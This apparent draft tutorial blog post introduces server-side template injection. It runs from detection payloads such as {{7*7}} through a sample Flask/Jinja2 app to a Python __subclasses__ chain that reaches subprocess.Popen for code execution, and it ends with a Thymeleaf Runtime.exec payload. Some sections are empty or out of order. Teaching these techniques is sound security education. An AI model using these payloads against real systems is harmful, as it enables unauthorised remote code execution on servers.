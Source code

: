 # An Introduction to Server-Side Template Injections

The idea of a web application template is basically what it sounds like. Imagine its around the holidays and you are writing letters to 20+ relatives. Having to write 20+ personalized letters to each relative eventually becomes a little tedious. Your letters may end up becoming something like this:

> Dear {relative name}, 
>
> I hope you are doing well. Happy holidays.
>
> Best regards,
>
> {your name}

Web applications use a very similar approach. When a home page displays the friendly "Hello, {your name}", its retrieving data from the server and presenting it onto a template. An example can be seen from my school's learning management system:

![](/images/brightspace.png)

Templates are often used by developers and can be seen in many modern-day dynamic web frameworks. Some of them include:

- Flask/Django
- Laravel
- Hugo
- AngularJS

Because of the such widespread usage, the initial discovery of template injections introduced a whole new class of vulnerabilities still being researched today.

## What are server-side template injections? (SSTIs)
Server-side template injections, or SSTIs, were first introduced by [James Kettle](https://portswigger.net/research/server-side-template-injection) in 2015.

The main idea behind the attack is for a malicious user to abuse the "retrieve data from the server" mechanism, hence the "server-side" part to the name. 

Allowing user-input typically is a bad idea, but in some places it is necessary, such as with forms and chat messages. The issue arises when a server renders and executes the user-input, typically triggered with a special wrapper.

## Testing for SSTI
The common payload `{{7*7}}` used in Kettle's research would, in many frameworks, return to the template `49`. You can see within the curly braces, an equation is being put in the input. Because the server rendered the equation and not as as a normal string, we therefore have a form of code execution and a successful SSTI.

Other payloads with differing syntax may also include:
- `{{7*'7'}}`
- `@(7*7)`
- `${{<%[%'"}}%\.`

Another indicator of SSTI is through finding XSS vulnerabilities depending on the framework. Because both injections cause the server to do a form of rendering, some XSS locations may also be vulnerable to SSTI.

## Exploiting SSTI
So we can now calculate simple math expressions. But how do we use this to go further?

Understanding the idea that the injected code is run in an environment, we therefore should have access to environmental variables.

Depending on the framework, there will be various differences such as programming language, framework builtins, and filtering rules that may be used. Using different types of payloads as mentioned above can help with the identification of the specific framework.

In this case, we will explore various ways of SSTI in Flask.

## Exploring Flask
Flask is a Python based framework and uses Jinja2 as its templating engine. Even though Flask itself incorporates Jinja2, certain filters can still be used to allow for XSS and even SSTI.

Let's take a look at a simple Flask app. The app returns user input from a POST request and passes it back through the `data` variable:

```python
# app.py
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        data = request.form["input"]
        return render_template("index.html", data=data)
    return render_template("index.html")

if __name__ == "__main__":
    app.run(debug=True)
```

We can create an `index.html` template in the `/templates` directory as so:

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
    <head>
        <title>Flask SSTI Testing</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/water.css@2/out/water.css">
    </head>
    <body>
        <h1>Flask SSTI Testing</h1>
        
        <form method="POST">
            <input type="text" name="input">
            <input type="submit" value="Submit">
        </form>
        
        {% if data %}
        <h2>Raw Input:</h2>
        <p>{{ data }}</p>
        {% endif %}
    </body>
</html>
```

You can see the special Jinja2 syntax used in the if statement. As the Flask application renders the template, it checks whether or not the server returned a `data` variable. If so, it will be rendered onto the page.






### Object Tree Traversal
By utilizing Python builtins, we can also traverse object trees to access different types of objects. 

For example in Python, we can use some object properties such as `__mro__`, `__class__`, and `__subclasses__` to traverse up and down the object tree to bypass potential filters. The process on crafting the payload is shown below:

```python
>>> "" # just a string, can be declared
# ' '
>>> "".__class__ # retrieving the class object
# <class 'str'>
```






Following here, we use Python's Method Resolution Order, or MRO, to get all the classes the string class inherits. In this case, we are traversing up the object tree. As shown below, the string is both a string and an object:

```python
>>> "".__class__.__mro__
# (<class 'str'>, <class 'object'>)
>>> "".__class__.__mro__[1] # accessing just object from tuple
# <class 'object'>
```

Provided the object, we can now traverse back down to access a different class/object in the environment. This can be done with the `subclasses()` function. This returns a long list of all existing object in the environment:

```python
>>> "".__class__.__mro__[1].__subclasses() # 
# [<class 'type'>, <class 'weakref'>,
# ...
# <class 'apport.packaging.PackageInfo'>, <class 'gettext.NullTranslations'>]
```

From here, a useful object to obtain RCE is `subprocess.Popen`. Using the returned list from `subclasses()`, we can access the object and run its normal functions to execute code.

```python
>>> ''.__class__.__mro__[1].__subclasses__()[340]('whoami', shell=True, stdout=-1).communicate()[0].strip()
# root
```

### Using Engine Builtins




https://jinja.palletsprojects.com/en/2.11.x/templates/#lipsum



The following will be looking at the popular Flask framework closely and how it may be vulnerable to SSTI.



<!-- 
## Flask Example
Flask is a popular web framework built with Python. It uses a templating engine called Jinja2, which will be the main point of target.
 -->












## References
- https://portswigger.net/research/server-side-template-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt


### Language Builtins
In certain languages, almost everything is an object. Objects, such as strings, arrays, and booleans inherit certain global properties from other classes and will have its own set of functions.

For example in Java, the type T can be used as a payload to run commands and would be vulnerable in Thymeleaf:
```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```